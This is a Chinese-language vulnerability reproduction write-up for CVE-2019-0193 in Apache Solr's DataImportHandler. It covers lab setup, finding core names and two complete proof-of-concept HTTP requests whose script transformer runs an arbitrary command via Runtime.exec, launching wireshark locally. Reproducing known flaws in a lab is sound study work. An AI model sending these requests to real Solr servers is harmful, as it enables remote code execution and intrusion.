



CVE-2019-0193 复现概述
--

### 影响范围

Apache Solr < 8.2.0

### 环境搭建

版本： solr 7.7.2

环境搭建这里是比较坑的，我之前不知道solr有dataimporthandler的案例，搭建环境花费了很长时间，总是报错，而且还没有成功23333。实际上只需要如下命令就行

`bin/solr -e dih`

上面的命令就会启动一个搭建好dataimporthandler的环境，访问8983端口，我们就能直接复现漏洞了。

### 漏洞复现

这个漏洞利用的前提就是需要知道core一个core的名字，这个我们可以通过访问

`http://127.0.0.1:8983/solr/admin/cores`

获取，如下



我们接下来就以atom这个core为例进行复现。poc1如下：

```
POST /solr/atom/dataimport HTTP/1.1
Host: 127.0.0.1:8983
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: bdshare_firstime=1564113816358
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 501

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=atom&name=dataimport&dataConfig=
<dataConfig>
<dataSource type="URLDataSource"/>
<script><![CDATA[
function poc(row){
var process= java.lang.Runtime.getRuntime();
process.exec("wireshark");
return row;
}
]]></script>
<document>
<entity name="stackoverflow"
url="https://stackoverflow.com/feeds/tag/solr"
processor="XPathEntityProcessor"
forEach="/feed"
transformer="script:poc" />
</document>
</dataConfig>


```

上面的poc中的atom替换为你自己环境中的core名，然后我这里是启动wireshark,这个自己随机指定一个软件都行。



上面那个poc是利用了stackoverfolw返回的xml文档， 稳定性不太好，接下来这个poc更具有普适性

```
POST /solr/atom/dataimport HTTP/1.1
Host: 127.0.0.1:8983
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: bdshare_firstime=1564113816358
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 554

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=atom&name=dataimport&dataConfig=
<dataConfig>
<dataSource type="URLDataSource"/>
<script><![CDATA[
function poc(row){
var process= java.lang.Runtime.getRuntime();
process.exec("wireshark");
return row;
}
]]></script>
<document>
<entity name="stackoverflow"
url="http://127.0.0.1:8983/solr/admin/info/system?wt=xml"
processor="XPathEntityProcessor"
forEach="/response"
transformer="HTMLStripTransformer,RegexTransformer,script:poc" />
</document>
</dataConfig>
```

效果如下：



**这个poc比较重要的一点就是url的值，这个值链接的目标应该返回一个正常的xml文档**


